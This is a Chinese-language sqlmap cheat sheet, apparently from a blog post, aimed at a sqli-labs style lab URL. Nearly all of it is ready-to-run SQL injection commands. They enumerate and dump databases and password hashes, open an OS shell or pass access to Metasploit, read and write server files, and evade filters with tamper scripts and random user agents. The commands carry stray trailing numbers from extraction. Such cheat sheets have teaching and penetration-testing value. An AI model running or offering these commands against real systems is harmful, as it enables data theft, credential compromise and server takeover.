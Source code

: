 
sqlmap默认的User-Agent：sqlmap/1.1.9.22#dev (http://sqlmap.org)



![](https://img-blog.csdnimg.cn/20200307193641829.png)



Sqlmap的简单用法

-----------



```
sqlmap -r http.txt  #http.txt是我们抓取的http的请求包      
sqlmap -r http.txt -p username  #指定参数，当有多个参数而你又知道username参数存在SQL漏洞，你就可以使用-p指定参数进行探测      
sqlmap -u "http://www.xx.com/username/admin*"       #如果我们已经知道admin这里是注入点的话，可以在其后面加个*来让sqlmap对其注入      
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"   #探测该url是否存在漏洞      
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"   --cookie="抓取的cookie"   #当该网站需要登录时，探测该url是否存在漏洞      
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"  --data="uname=admin&passwd=admin&submit=Submit"  #抓取其post提交的数据填入      
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --users      #查看数据库的所有用户      
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --passwords  #查看数据库用户名的密码      
有时候使用 --passwords 不能获取到密码，则可以试下      1
-D mysql -T user -C host,user,password --dump  当MySQL< 5.7时      1
-D mysql -T user -C host,user,authentication_string --dump  当MySQL>= 5.7时      1
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --current-user  #查看数据库当前的用户      1
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --is-dba    #判断当前用户是否有管理员权限      1
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --roles     #列出数据库所有管理员角色，仅适用于oracle数据库的时候       1
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"    --dbs        #爆出所有的数据库      1
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"    --tables     #爆出所有的数据表      1
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"    --columns    #爆出数据库中所有的列      1
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"    --current-db #查看当前的数据库      2
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security --tables #爆出数据库security中的所有的表      2
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users --columns #爆出security数据库中users表中的所有的列      2
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users -C username --dump  #爆出数据库security中的users表中的username列中的所有数据      2
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users -C username --dump --start 1 --stop 100  #爆出数据库security中的users表中的username列中的前100条数据       2
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users --dump-all #爆出数据库security中的users表中的所有数据      2
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security --dump-all   #爆出数据库security中的所有数据      2
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --dump-all  #爆出该数据库中的所有数据       2
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"  --tamper=space2comment.py  #指定脚本进行过滤，用/**/代替空格      3
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --level=5 --risk=3 #探测等级5，平台危险等级3，都是最高级别。当level=2时，会测试cookie注入。当level=3时，会测试user-agent/referer注入。      3
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --sql-shell  #执行指定的sql语句      3
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --os-shell/--os-cmd   #执行--os-shell命令，获取目标服务器权限      3
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --os-pwn   #执行--os-pwn命令，将目标权限弹到MSF上       3
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --file-read "c:/test.txt" #读取目标服务器C盘下的test.txt文件      3
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --file-write  test.txt  --file-dest "e:/hack.txt"  #将本地的test.txt文件上传到目标服务器的E盘下，并且名字为hack.txt       3
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --dbms="MySQL"     #指定其数据库为mysql       3
其他数据库：Altibase,Apache Derby, CrateDB, Cubrid, Firebird, FrontBase, H2, HSQLDB, IBM DB2, Informix, InterSystems Cache, Mckoi, Microsoft Access, Microsoft SQL Server, MimerSQL, MonetDB, MySQL, Oracle, PostgreSQL, Presto, SAP MaxDB, SQLite, Sybase, Vertica, eXtremeDB      4
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --random-agent   #使用任意的User-Agent爆破      4
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --proxy="http://127.0.0.1:8080"    #指定代理      4
```